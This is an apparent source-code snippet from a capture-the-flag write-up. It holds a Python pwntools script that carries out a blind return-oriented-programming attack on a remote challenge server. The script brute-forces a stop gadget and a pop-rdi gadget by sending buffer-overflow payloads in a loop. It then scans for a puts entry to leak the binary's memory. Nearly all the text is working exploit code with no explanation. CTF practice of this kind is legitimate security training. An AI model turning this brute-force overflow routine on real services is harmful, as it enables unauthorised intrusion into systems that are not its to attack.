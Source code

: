 ```python
    while True:
        sleep(0.1)
        addr += 1
        payload  = b"A"*buf_size
        payload += p64(addr)
        payload += p64(1) + p64(2) + p64(3) + p64(4) + p64(5) + p64(6)
        payload += p64(stop_addr)
        try:
            p = remote('pwn.challenge.ctf.show', port)
            p.recvuntil("daniu?\n")
            p.sendline(payload)
            data = p.recv(timeout=1)
            print(data)
            p.close()
            print("find address: 0x%x" % addr)
            if b"Welcome" in data:
                try:    # check
                    payload  = b"A"*buf_size
                    payload += p64(addr)
                    payload += p64(1) + p64(2) + p64(3) + p64(4) + p64(5) + p64(6)

                    p = remote('pwn.challenge.ctf.show', port)
                    p.recvline()
                    p.sendline(payload)
                    p.recvline()
                    p.close()
                    print("************************** bad address: 0x%x ***********************" % addr)
                except:
                    p.close()
                    print("************************** gadget address: 0x%x ***********************" % addr)
                    return addr
            else:
                continue
        except EOFError as e:
            p.close()
            print("\nEOFError: 0x%x" % addr)
        except :
            print("\ncan't connect!")
            addr -=1
	
            
def get_puts_addr():
    addr = 0x400540
    pop_rdi = brop_addr +0x9
    while 1:
        addr += 0x10
        print (hex(addr))
        payload  = b"A"*buf_size
        payload += p64(pop_rdi)
        payload += p64(0x400000)
        payload += p64(addr)
        payload += p64(stop_addr)
        
        sh = remote('pwn.challenge.ctf.show', port)
        sh.recvuntil(b'daniu?\n')
        sh.send(payload)
        data = sh.recv()
        sh.close()
        print(data)
        if not data.startswith(b"\x7fELF"):
            continue
```